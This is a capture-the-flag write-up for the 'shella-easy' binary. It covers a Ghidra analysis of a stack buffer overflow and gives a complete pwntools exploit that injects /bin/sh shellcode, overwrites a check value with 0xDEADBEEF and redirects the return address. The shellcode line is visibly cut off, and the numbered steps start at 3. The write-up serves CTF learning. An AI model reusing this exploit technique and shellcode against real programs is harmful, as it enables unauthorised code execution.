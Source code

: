 # This is the documentation for the shella ctf challenge

## Step-by-Step Guide

This document outlines the steps taken to identify and exploit a buffer overflow vulnerability
using tools like Ghidra, virtual environment, and Python. Each step is critical to
understanding the target system, identifying the vulnerability, and creating a succesful
exploit.


### File information:

shella-easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=38de2077277362023aadd2209673b21577463b66, not stripped



### Security information

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      SymbolsFORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   71 Symbols       No    0               2               shella-easy                                    
                                                                                               

### 3. Identifying the Target Memory Address

**Description:**
Finding the memory address you want to return to after exploiting the buffer overflow is
critical for hijacking. In this case the memory address we want was within the sentence
displayed when the shella-easy program is run.

* **Analyze the Binary:** Using Ghidra to identify the memory address you want to redirect
execution to. Ghidra is also good for knowing how far you are from a desire address and how
much you need to pad it to reach there.

* **Record the Address:** This address will be used later in the payload to overwrite the
return address. We record multiple address in this challenge because we have to bypass certain
obstacles to get to where we wanted. For example in Ghidra we found a conditional statment that
needed the memory address of deadbeef in order for the program to not just exit.


#4. The use of padding and shellcode

**What is cyclic: **
In our explotation code we use a function called cyclic which is a built in function of the
pwntools library. This function is supposed to create a unique pattern of characters in which
we shoud be able to find after inputting it in a function. Using the other built in function
cyclic_find() in which you insert a memory address of where the unique pattern is in memory
and show the distance in which how far away you are. These two tools was helpful in indentifying
how much we needed to pad the code.
 


#5. The exploit code

```python
 from pwn import * 

 # initalizing the process
 pw = process("./shella-easy")

 # Recieve data until the > symbol
 pw.recvuntil(b'have a')

 the_memory = pw.recv(12)

 # sends data to buffer overflow while also sending the address we want
 print(the_memory)

 payload = b''
 shellcode = ""
 # This shellcode is from: http://shell-storm.org/shellcode/files/shellcode-827.php`
 shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb>

 gdb.attach(pw, gdbscript = 'b *0x8048548')

 padding = 100

 payload += shellcode

 # This is to make sure the shellcode lines up with our deadbeef 
 payload += b'A' * (64 - len(shellcode))

 # The memory address of deadbeef needed to bypass the conditional statement
 payload += p32(0xDEADBEEF)

 # This is to line up the return address
 payload += b'B' * 8

 #payload += cyclic(padding - len(payload)) This shows where the retrun address needs to be

 # The return address where are shellcode is in memory
 payload += p32(int(the_memory,16))

 # Sends the payload
 pw.sendline(payload)

 print(pw.recvline())

 # allows us to interact with the process
 pw.interactive()



```


### Conclusion

When going through these steps you realize it is important to know what your objective is
and taking each progress step by step. In order for one block of code to execute it relies on
the execution of another block of code or condition that was cleared earlier. Knowing the
convertions of hexadecimle and binary was important and padding was critical in this challenge.
It's like a puzzle in which you need to find all your pieces in order to create a succesful 
exploitation.
 

